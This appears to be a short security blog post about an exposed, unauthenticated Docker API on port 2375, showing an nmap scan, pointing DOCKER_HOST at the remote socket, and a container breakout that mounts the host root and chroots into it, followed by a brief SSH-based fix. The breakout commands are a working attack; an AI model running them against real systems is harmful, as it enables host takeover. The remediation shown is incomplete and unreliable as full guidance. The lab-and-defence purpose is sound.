 ```yaml
---
title: "Securely Accessing Remote Docker Host"
date: "2021-08-16"
description: "The Docker TCP socket by default doesn't support any authentication. and, if the Docker socket is exposed on an external interface, anyone can connect to it and issue docker commands. This can even lead to host takeover if the Docker daemon is running as root."
coverimage: Securely_Accessing_Remote_Docker_Host_HjjWMVv.jpg
tags: docker
published: true
posttype: article
---
```

Docker is running out box without the socket set
```
evilsaint@marvel.lab:~# docker ps
Cannot connect to the Docker daemon at unix:///var/run/docker.sock. Is the docker daemon running?

evilsaint@marvel.lab:~# docker images
Cannot connect to the Docker daemon at unix:///var/run/docker.sock. Is the docker daemon running?
```


Nmap Scan showing exposed Docker API port. 
```
nmap -sSV -p- 192.190.96.3
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-17 00:34 IST
Nmap scan report for docker-host (192.190.96.3)
Host is up (0.000015s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
2375/tcp open  docker     Docker 19.03.1 (API 1.40)
2376/tcp open  tcpwrapped
MAC Address: 02:42:C0:BE:60:03 (Unknown)
Service Info: OSs: Linux, linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.11 seconds
````


Define the DOCKER_HOST environment variable to point to this remote TCP socket.
```
export DOCKER_HOST=192.190.96.3:2375
```

Now we can mount the image to the host volume and do a host breakout if permissions are in place
```
evilsaint@marvel.lab:~# docker run -it -v /:/host ubuntu:18.04 bash
root@6a01ea2ace07:/# chroot /host
#
```

## How can we secure this 

I will SSH into the remote host to perform the fix 

Let us kill the docker
```
ps -ef | grep docker
```

```
kill <pid>
```

Restart the docker service
```
service docker start
```

Now we export the docker host to be accessible over SSH
```
root@localhost:~# export DOCKER_HOST=ssh://root@192.190.96.3
```